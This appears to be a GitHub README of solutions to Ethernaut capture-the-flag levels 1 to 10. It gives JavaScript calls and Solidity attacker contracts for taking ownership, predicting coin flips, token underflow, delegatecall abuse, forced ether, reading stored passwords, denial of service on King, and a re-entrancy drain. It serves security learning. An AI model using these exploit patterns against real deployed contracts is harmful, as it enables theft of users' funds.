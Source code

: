 # ethernaut-ctf-solutions

<details>
    <summary>Level 1 - Fallback</summary>

```javascript
// first need to send some ether to contribute():
await contract.contribute({value: toWei("0.0001")})

// then send some raw ether, the fallback function will make us the owner
sendTransaction({from: player, to: instance, value: toWei("0.0001")})

// are we the owner yet?
await contract.owner() == player

// now that we're the owner, we can siphon the funds
await contract.withdraw()

// and double check that the contract has a balance of 0:
await getBalance(instance)
```

</details>

 <details>
    <summary>Level 2 - Fallout</summary>
    
```javascript
 /* constructor */
  function Fal1out() public payable    // <--- typo makes it not actually a constructor

// so just call this and you're the owner
await contract.Fal1out()
```

</details> 

 <details>
    <summary>Level 3 - Coin flip</summary>

Deploy this guesser contract, using e.g. Remix IDE:

```solidity

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface CoinFlip {
    function flip(bool _guess) external returns (bool);
}

contract CoinFlipGuess {
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
  CoinFlip instance = CoinFlip(address(...));

  function guess() public {
    uint256 blockValue = uint256(blockhash(block.number - 1));
    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    bool coinFlip = blockValue > FACTOR;
    require(instance.flip(coinFlip));
  }
}
```

Then repeatedly invoke the guess() function, calls will only go through when we know they will succeed in the `CoinFlip` contract.

</details> 

 <details>
    <summary>Level 4 - Telephone</summary>

Deploy this and call `ring_ring()`, we just need a smart contract to act as a buffer so that `msg.sender != tx.origin`. See also [rekt - THORChain](https://rekt.news/thorchain-rekt2/)

```solidity

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Telephone {
  function changeOwner(address _owner) external;
}

contract CallMeMaybe {
    Telephone instance = Telephone(address(...));
    
    function ring_ring() public {
        instance.changeOwner(msg.sender);
    }
}
```

</details> 

 <details>
    <summary>Level 5 - Token</summary>
    
```javascript
// trigger an underflow by transferring >20 tokens to any address
await contract.transfer("0xd4F3ae2100b186D5e8e0E41d7930bE7B3a3e9E6C", 100)
```

</details> 

 <details>
    <summary>Level 6 - Delegation</summary>
    
```javascript
// we want to hit the fallback function of the delegator, and pass it the selector of the pwn() function so that it invokes pwn() on the delegate

contract.sendTransaction({
    to: instance, 
    data: web3.eth.abi.encodeFunctionSignature("pwn()")
})

```

</details> 

 <details>
    <summary>Level 7 - Force</summary>

Relevant chapter in [Mastering Ethereum](https://github.com/ethereumbook/ethereumbook/blob/develop/09smart-contracts-security.asciidoc#unexpected-ether)

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract TakeMyMoney {
    fallback() external payable {}
    
    function boom(address payable _address) public {
        selfdestruct(_address);
    }
}
```

</details> 

 <details>
    <summary>🏦 Level 8 - Vault</summary>

Find the transaction that was used to create the contract on Etherscan, and look in the state change tab. We can see the value that was stored in the first variable: that's the password, then we just invoke unlock with it:

```javascript
await contract.unlock("0x...")
```

</details> 

 <details>
    <summary>👑 Level 9 - King</summary>

Trying to make this contract the king, it should refuse eth transfers, hence preventing the ownership transfer. Deploy it with 1 ETH, so that it has a starting balance.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;


interface King {
    function _king() external view returns (address payable);
}

contract KingMaker {
    constructor() public payable {}
    
    function kingMe(address kingInstance) public {
        // send ether using a low-level call because send/transfer are limited to 2300 gas
      // send exactly 1 ether, because we need to pass the condition but not exceed the balance of the King contract
        kingInstance.call{value:1 ether}("");
        require(King(kingInstance)._king() == address(this));
    }
    
    function withdraw() public {
        payable(msg.sender).transfer(address(this).balance);
    }
}
```

</details> 


 <details>
    <summary>🔁 Level 10 - Re-entrancy</summary>

```solidity
// SPDX-License-Identifier: GPL-3.0

pragma solidity >=0.7.0 <0.9.0;

interface Reentrance {
  function donate(address _to) external payable;
  function withdraw(uint _amount) external;
}

contract Withdrawer {
    Reentrance instance = Reentrance(address(...));
    uint amount = 0.1 ether;
    
    constructor() payable {}
    
    // this is where we trigger the re-entrancy bug
    receive() external payable {
        if (address(instance).balance >= amount)  {
            instance.withdraw(amount);
        }
    }
    
    function pullTheTrigger() public {
        instance.donate{value: amount}(address(this));
        instance.withdraw(amount);
    }
    
    function drain() public {
        payable(msg.sender).transfer(address(this).balance);
    }
}
```

</details> 

